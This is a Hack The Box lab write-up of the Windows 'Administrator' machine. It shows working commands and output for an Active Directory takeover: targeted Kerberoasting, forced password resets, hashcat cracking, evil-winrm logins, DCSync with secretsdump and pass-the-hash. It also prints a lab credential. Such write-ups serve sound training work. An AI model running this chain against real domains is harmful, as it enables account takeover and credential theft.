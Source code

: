 ```yaml
---
title: Administrator - Windows Medium - HTB Writeup 
description:
slug: administrator-htb-writeup-windows-medium
date: 2025-04-19 00:00:00+0000
image: Administrator.PNG
categories:
    - Hack
    - Windows
    - Medium
tags:
    - ACL-based privileges
    - DCsync

# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```


If you're familiar with Windows boxes, this one is fairly straightforward as it follows classic exploitation paths.
## Summary
User: ACL-based privileges\
Root: ACL-based privileges, DCsync

## Enumeration
Using an Nmap scan, we can identify that this machine is an Active Directory Domain Controller.
{{< highlight go "hl_lines=1" >}}
$ nmap -Pn -p- 10.10.11.42 -v
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
52649/tcp open  unknown
59626/tcp open  unknown
59631/tcp open  unknown
59638/tcp open  unknown
59643/tcp open  unknown
59655/tcp open  unknown
{{< /highlight >}}

We use ```bloodhound-python``` with the provided credentials ```Olivia:ichliebedich``` to gather information about the ```administrator.htb``` domain (added to our /etc/hosts file).\
We quickly identify that compromising Ethan's account will be necessary to perform a DCSync attack and retrieve the domain admin’s hash.
![](InitialBH.png)


## User
### GenericWrite, Olivia -> Michael

To compromise Ethan's account, we first need to compromise Emily's account, which has ```GenericWrite``` privileges over Ethan.
![](PathtoEthan.png)
As shown above, there is no direct path to Emily's account.
![](PathtoEmily.png)

We’ll focus on the access rights of our initial user, Olivia.\
She has ```GenericAll``` privileges over Michael, so we’ll perform a targeted Kerberoast attack to retrieve his hash.\
Since the hash couldn’t be cracked, we used Olivia’s privileges to force a password change for Michael's account.
{{< highlight go "hl_lines=1 5 6 9" >}}
$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'olivia' -p 'ichliebedich'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (michael)
[+] Printing hash for (michael)
$krb5tgs$23$*michael$ADMINISTRATOR.HTB$administrator.htb/michael*$64da<...>d
[VERBOSE] SPN removed successfully for (michael)

$ net rpc password "michael" "michael_pass" -U "administrator.htb"/"olivia"%"ichliebedich" -S "administrator.htb"
{{< /highlight >}}

### ForceChangePassword, Michael -> Benjamin
Continuing our enumeration in BloodHound, we notice that Michael has the ability to change the password of Benjamin.
We use the same command as previously to perform the password change.
![](PathtoBenjamin.png)
{{< highlight go "hl_lines=1" >}}
$ net rpc password "benjamin" "benjamin_pass" -U "administrator.htb"/"michael"%"michael_pass" -S "administrator.htb"
{{< /highlight >}}

Benjamin is a member of the ```SHARE MODERATORS``` group.
![](BenjaminGroup.png)
We don’t find anything interesting on the SMB shares, but on the FTP server we discover a file named ```Backup.psafe3```.
We download it and crack its password using Hashcat.

### FTP et Backup.psafe3
{{< highlight go "hl_lines=1 6 8 18 32" >}}
$ ftp benjamin@10.10.11.42
<...>
ftp> ls
229 Entering Extended Passive Mode (|||50350|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> mget backup.psafe3
mget Backup.psafe3 [anpqy?]? yes
229 Entering Extended Passive Mode (|||50354|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************|   952       56.85 KiB/s    00:00 ETA
226 Transfer complete.
<...>
ftp> exit
221 Goodbye.

$ hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
<...>
Backup.psafe3:<...>                                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
Hash.Target......: Backup.psafe3
Time.Started.....: Sat Apr 19 20:18:43 2025 (1 sec)
Time.Estimated...: Sat Apr 19 20:18:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    23899 H/s (6.93ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:2048-2049
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 60%

Started: Sat Apr 19 20:18:42 2025
Stopped: Sat Apr 19 20:18:45 2025
{{< /highlight >}}
We use this password to open the file with ```pwsafe``` and retrieve Emily's password.
{{< highlight go "hl_lines=1" >}}
$ pwsafe Backup.psafe3
{{< /highlight >}}
![](pwsafe.PNG)

We notice in BloodHound that Emily has access to the machine, so we gain access to it using ```evil-winrm``` and retrieve the user.txt file.\
![](PSRemoteEmily.PNG)
{{< highlight go "hl_lines=1 8" >}}
$ evil-winrm -i 10.10.11.42 -u emily -p U<...>b
<...>
*Evil-WinRM* PS C:\Users\emily\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\emily\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         4/19/2025   3:02 PM             34 user.txt
{{< /highlight >}}

## Root
### GenericWrite, Emily -> Ethan

As previously mentionned, Emily has ```GenericWrite``` privileges over Ethan, and, Ethan has DCSync rights.\
First, we retrieve Ethan’s hash and crack it using Hashcat.
![](EmilytoEthan.PNG)
{{< highlight go "hl_lines=1 6 9 23" >}}
$ ./targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'U<...>b'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7
[VERBOSE] SPN removed successfully for (ethan)

$ hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
<...>
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$3<...>7:l<...>t
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....9cb327
Time.Started.....: Sat Apr 19 20:39:25 2025 (0 secs)
Time.Estimated...: Sat Apr 19 20:39:25 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   641.4 kH/s (0.52ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 71%

Started: Sat Apr 19 20:39:24 2025
Stopped: Sat Apr 19 20:39:27 2025
{{< /highlight >}}

### DCSync
Then, we perform a DCSync attack using the recovered password with ```secretsdump```.
![](EthantoDC.PNG)
{{< highlight go "hl_lines=1 3" >}}
$ ./secretsdump.py 'administrator.htb'/'ethan':'l<...>t'@'administrator.htb'
<...>
Administrator:500:a<...>e>:3<...>e:::
<...>
[*] Cleaning up...
{{< /highlight >}}
Now, we can use ```evil-winrm``` to gain access to the Domain Controller using the administrator's NTHASH.
{{< highlight go "hl_lines=1 7" >}}
$ evil-winrm -i 10.10.11.42 -u administrator -H 3<...>e
<...>
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/19/2025   6:52 PM             34 root.txt
{{< /highlight >}}
